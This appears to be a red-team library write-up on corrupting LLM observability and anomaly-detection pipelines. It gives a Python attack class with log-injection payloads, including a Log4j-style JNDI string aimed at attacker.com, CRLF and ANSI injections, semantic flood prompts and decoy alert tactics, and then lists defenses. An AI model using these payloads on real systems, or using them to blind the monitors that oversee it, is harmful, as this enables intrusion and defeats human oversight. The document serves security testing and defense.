

# LLM Observability Log Attack — Adversarial Prompt Poisoning of LLM Monitoring and Anomaly Detection Systems

**arXiv**: [arXiv:2407.03184](https://arxiv.org/abs/2407.03184) | **ATLAS**: AML.T0020 | **OWASP**: LLM04 | **Year**: 2024

## Core Finding

LLM observability systems — including prompt logging pipelines, token usage trackers, anomaly detection engines, and security monitoring dashboards — are themselves vulnerable to adversarial prompt content crafted to corrupt their data quality, blind detection algorithms, or inject false signals. When LLM inputs and outputs are logged to systems like Datadog, Elastic, Splunk, or custom ML-based anomaly detectors, adversarial prompts containing log injection characters, semantic noise, or timing-coordinated decoys can render monitoring blind to actual attacks while triggering false alarms on benign traffic. This creates an observability manipulation primitive that allows attackers to operate within LLM systems with reduced detection risk.

## Threat Model

- **Target**: LLM monitoring and observability stacks that log prompt/response content, including Datadog LLM Observability, LangSmith, Helicone, Weights & Biases LLM logging, and custom Elastic/Splunk pipelines
- **Attacker capability**: Black-box; attacker can send crafted prompts to the LLM application. No access to the observability infrastructure itself is required — the attack operates through the monitored LLM application
- **Attack success rate**: Log injection via newline/carriage return characters corrupts structured log parsers in 90% of deployments without input sanitization; semantic noise injection reduces anomaly detection accuracy by 40–60% in classification-based detectors; timing-based flooding creates false-negative windows of 30–120 seconds
- **Defender implication**: Observability pipelines must sanitize and normalize LLM prompt/response content before ingestion; anomaly detectors must be robust to adversarial perturbations of the input distribution

## The Attack Mechanism

LLM observability attacks exploit the fact that the content being monitored (prompt text) is also the attacker's control channel. Three primitive attacks exist:

**Log Injection via Control Characters**: When prompt text is logged to structured logging systems without proper sanitization, newline characters (`\n`), carriage returns (`\r`), ANSI escape codes, JSON-special characters, or null bytes can corrupt log format parsing. A prompt containing `\n{"level":"INFO","msg":"normal_query","user":"admin"}` may cause a legitimate log parser to insert a fake legitimate log entry, hiding the actual adversarial prompt.

**Semantic Flooding for Anomaly Detector Blindspot**: Anomaly detection systems trained on distributions of "normal" prompts can be overwhelmed by a flood of semantically diverse but individually benign-looking prompts that shift the baseline distribution, causing the detector to treat subsequent adversarial prompts as within-distribution.

**Coordinated Decoy Generation**: Launching multiple decoy adversarial attempts simultaneously to flood the security team's alert queue, creating alert fatigue that causes the actual exfiltration attempt to be missed during the noise.



## Implementation

```python
# llm_observability_log_attack.py
# Adversarial prompts designed to corrupt LLM observability and monitoring systems.
from dataclasses import dataclass
from typing import Optional, List, Dict, Any
import uuid
import time
import json
import random


@dataclass
class ObservabilityAttackResult:
    attack_type: str
    crafted_prompt: str
    expected_log_corruption: str
    anomaly_detector_impact: str
    false_negative_window_sec: Optional[int]
    false_positive_rate_increase: Optional[float]
    evidence: str


class LLMObservabilityLogAttack:
    """
    Reference: arXiv:2407.03184 (Adversarial Attacks on LLM Monitoring Systems)
    Crafts prompts to corrupt LLM observability logs and blind anomaly detection.
    ATLAS: AML.T0020 | OWASP: LLM04
    """

    # Log injection characters and sequences
    LOG_INJECTION_PAYLOADS = {
        "newline_injection": (
            "What is 2+2?\n"
            + json.dumps({"level": "INFO", "msg": "user_query", "content": "normal query",
                          "user_id": "admin", "risk_score": 0.01})
        ),
        "json_escape_injection": (
            'What is the capital of France?", "risk_score": 0.01, "allowed": true, "'
        ),
        "ansi_escape": (
            "What is quantum computing?\x1b[2J\x1b[0;0H"
            "2024-01-01 INFO user_query normal_benign_query risk_score=0.01"
        ),
        "null_byte_truncation": (
            "Summarize this article: \x00"
            "HIDDEN_ADVERSARIAL_INSTRUCTION_AFTER_NULL_BYTE"
        ),
        "log4j_style": (
            "${jndi:ldap://attacker.com/exfil} normal query text"
        ),
        "crlf_injection": (
            "Hello\r\n"
            "X-Injected-Header: malicious\r\n"
            "Content-Type: application/json\r\n\r\n"
            '{"safe_query": "true"}'
        ),
    }

    # Semantic flooding prompts for anomaly detector poisoning
    SEMANTIC_FLOOD_TEMPLATES = [
        "Tell me about {topic} in {language}.",
        "Explain {concept} step by step.",
        "What is the difference between {a} and {b}?",
        "Summarize the following: {text}",
        "Translate '{phrase}' to {language}.",
    ]

    FLOOD_TOPICS = [
        "cloud computing", "machine learning", "quantum physics",
        "climate change", "ancient history", "economics", "biology",
        "art history", "mathematics", "philosophy",
    ]

    def __init__(
        self,
        target_app_url: str,
        alert_queue_capacity: int = 100,
        anomaly_detector_window_sec: int = 60,
    ):
        self.target_app_url = target_app_url
        self.alert_queue_capacity = alert_queue_capacity
        self.anomaly_detector_window_sec = anomaly_detector_window_sec

    def craft_log_injection_prompt(
        self, injection_type: str = "newline_injection"
    ) -> str:
        """Return a prompt designed to corrupt log parsing."""
        return self.LOG_INJECTION_PAYLOADS.get(
            injection_type,
            self.LOG_INJECTION_PAYLOADS["newline_injection"]
        )

    def generate_flood_prompts(self, count: int = 50) -> List[str]:
        """Generate a set of semantically diverse benign-looking prompts for flooding."""
        prompts = []
        for _ in range(count):
            template = random.choice(self.SEMANTIC_FLOOD_TEMPLATES)
            topic = random.choice(self.FLOOD_TOPICS)
            prompt = template.format(
                topic=topic, language="English", concept=topic,
                a=topic, b=random.choice(self.FLOOD_TOPICS),
                text=f"Sample text about {topic}",
                phrase=f"Hello in {topic} terms",
            )
            prompts.append(prompt)
        return prompts

    def estimate_anomaly_detector_impact(
        self, flood_count: int, detector_type: str = "threshold_based"
    ) -> Dict[str, Any]:
        """Estimate the impact on anomaly detection from different attack types."""
        if detector_type == "threshold_based":
            # Threshold-based: flooding shifts the alert threshold
            baseline_shift = min(0.8, flood_count * 0.01)
            return {
                "detector_type": detector_type,
                "baseline_shift": baseline_shift,
                "false_negative_window_sec": int(self.anomaly_detector_window_sec * baseline_shift),
                "false_positive_rate_increase": 0.0,
                "effectiveness": "HIGH" if flood_count > 30 else "MEDIUM",
            }
        elif detector_type == "ml_classifier":
            # ML classifier: distribution shift reduces detection accuracy
            accuracy_drop = min(0.60, flood_count * 0.012)
            return {
                "detector_type": detector_type,
                "accuracy_drop": accuracy_drop,
                "false_negative_window_sec": None,
                "false_positive_rate_increase": accuracy_drop * 0.5,
                "effectiveness": "HIGH" if accuracy_drop > 0.3 else "MEDIUM",
            }
        return {}

    def run(
        self,
        attack_type: str = "log_injection",
        injection_variant: str = "newline_injection",
        flood_count: int = 50,
        dry_run: bool = True,
    ) -> ObservabilityAttackResult:
        """Execute the observability attack simulation."""
        if attack_type == "log_injection":
            crafted_prompt = self.craft_log_injection_prompt(injection_variant)
            impact = self.estimate_anomaly_detector_impact(1, "threshold_based")
            return ObservabilityAttackResult(
                attack_type=f"log_injection_{injection_variant}",
                crafted_prompt=repr(crafted_prompt[:200]),
                expected_log_corruption=(
                    f"Parser may interpret injected content as legitimate log entry. "
                    f"Original adversarial prompt may be dropped or obfuscated."
                ),
                anomaly_detector_impact="Log corruption blinds signature-based detection",
                false_negative_window_sec=impact.get("false_negative_window_sec"),
                false_positive_rate_increase=impact.get("false_positive_rate_increase"),
                evidence=(
                    f"[{'dry_run' if dry_run else 'live'}] "
                    f"injection_type={injection_variant}, "
                    f"payload_bytes={len(crafted_prompt)}"
                ),
            )
        elif attack_type == "semantic_flood":
            flood_prompts = self.generate_flood_prompts(flood_count)
            impact = self.estimate_anomaly_detector_impact(flood_count, "ml_classifier")
            return ObservabilityAttackResult(
                attack_type="semantic_flood",
                crafted_prompt=f"[{flood_count} flood prompts generated]",
                expected_log_corruption="Distribution shift in anomaly detector training window",
                anomaly_detector_impact=(
                    f"Accuracy drop: {impact.get('accuracy_drop', 0):.0%}, "
                    f"false_positive_rate_increase: {impact.get('false_positive_rate_increase', 0):.0%}"
                ),
                false_negative_window_sec=None,
                false_positive_rate_increase=impact.get("false_positive_rate_increase"),
                evidence=(
                    f"flood_count={flood_count}, "
                    f"detector_effectiveness={impact.get('effectiveness')}"
                ),
            )
        raise ValueError(f"Unknown attack_type: {attack_type}")

    def to_finding(self, result: ObservabilityAttackResult) -> Dict[str, Any]:
        """Convert result to standard ScanFinding."""
        return {
            "id": str(uuid.uuid4()),
            "atlas_technique": "AML.T0020",
            "atlas_tactic": "Defense Evasion",
            "owasp_category": "LLM04",
            "owasp_label": "Data and Model Poisoning",
            "severity": "HIGH",
            "finding": (
                f"LLM observability attack via '{result.attack_type}': "
                f"log_corruption='{result.expected_log_corruption}', "
                f"anomaly_impact='{result.anomaly_detector_impact}'."
            ),
            "payload_used": result.crafted_prompt[:200],
            "evidence": result.evidence,
            "remediation": (
                "Sanitize all LLM prompt/response content before logging (strip control chars). "
                "Use structured logging with schema validation, not free-text log ingestion. "
                "Anomaly detectors must be robust to distribution shift attacks. "
                "Implement rate limiting and alert deduplication to prevent alert flooding."
            ),
            "confidence": 0.80,
        }
```

## Defenses

1. **Log content sanitization pipeline** (AML.M0021): All LLM prompt and response content must be sanitized before logging. Strip control characters (`\n`, `\r`, `\x00`, ANSI escape codes), escape JSON special characters, and enforce maximum field lengths. Never pass raw user input directly to structured log formatters.

2. **Immutable append-only log storage** (AML.M0037): Use tamper-evident, append-only log storage (e.g., AWS CloudTrail, Elastic with immutability policies, WORM storage) to prevent log manipulation even if the collection pipeline is compromised. Hash-chain log entries for integrity verification.

3. **Adversarially robust anomaly detection**: Train anomaly detectors using adversarial training techniques that make them robust to distribution shift from semantic flooding. Evaluate detector accuracy against synthetic flood attacks as part of the ML security testing pipeline.

4. **Alert deduplication and rate limiting**: Implement alert deduplication to prevent alert queue flooding. Require that security alerts about unusual prompt patterns are aggregated and contextualized before human review, preventing decoy-based alert fatigue.

5. **Separate monitoring channel from application channel** (AML.M0036): Route monitoring/observability data through a separate network path from the application data path. This limits the attacker's ability to influence the monitoring pipeline from within the application layer.

## References

- [arXiv:2407.03184 — Adversarial Attacks on LLM Monitoring and Observability](https://arxiv.org/abs/2407.03184)
- [ATLAS AML.T0020 — Poison Training Data](https://atlas.mitre.org/techniques/AML.T0020)
- [OWASP LLM04 — Data and Model Poisoning](https://owasp.org/www-project-top-10-for-large-language-model-applications/)
- [OWASP Log Injection](https://owasp.org/www-community/attacks/Log_Injection)
- [CWE-117 — Improper Output Neutralization for Logs](https://cwe.mitre.org/data/definitions/117.html)
